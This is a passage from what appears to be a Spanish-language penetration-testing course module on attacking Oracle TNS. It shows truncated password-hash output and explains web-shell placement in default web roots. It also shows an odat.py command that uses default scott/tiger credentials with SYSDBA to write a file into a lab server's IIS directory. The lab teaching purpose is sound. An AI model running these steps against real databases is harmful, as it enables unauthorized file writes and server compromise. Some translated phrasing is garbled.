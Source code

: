 ```shell-session

NAME                           PASSWORD
------------------------------ ------------------------------
IMP_FULL_DATABASE
LOGSTDBY_ADMINISTRATOR
...SNIP...
```

Otra opción es cargar un shell web en el destino. Sin embargo, esto requiere que el servidor ejecute un servidor web, y necesitamos saber la ubicación exacta del directorio raíz del servidor web. Sin embargo, si sabemos con qué tipo de sistema estamos tratando, podemos probar las rutas predeterminadas, que son:

| **Sistema operativo** | **Camino**           |
| --------------------- | -------------------- |
| Linux                 | `/var/www/html`      |
| Windows               | `C:\inetpub\wwwroot` |

En primer lugar, siempre es importante probar nuestro enfoque de explotación con archivos que no parezcan peligrosos para los sistemas antivirus o de detección/prevención de intrusiones. Por lo tanto, creamos un archivo de texto con una cadena y lo usamos para cargarlo en el sistema de destino.

#### Oracle RDBMS - Carga de archivos

  Oráculo TNS

```shell-session
zunderrubb@htb[/htb]$ echo "Oracle File Upload Test" > testing.txt
zunderrubb@htb[/htb]$ ./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt

[1] (10.129.204.235:1521): Put the ./testing.txt local file in the C:\inetpub\wwwroot folder like testing.txt on the 10.129.204.235 server                                                                                                  
[+] The ./testing.txt file was created on the C:\inetpub\wwwroot directory on the 10.129.204.235 server like the testing.txt file
```

Finalmente, podemos probar si el enfoque de carga de archivos funcionó con . Por lo tanto, utilizaremos una solicitud, o podemos visitar a través del navegador.`curl``GET http://<IP>`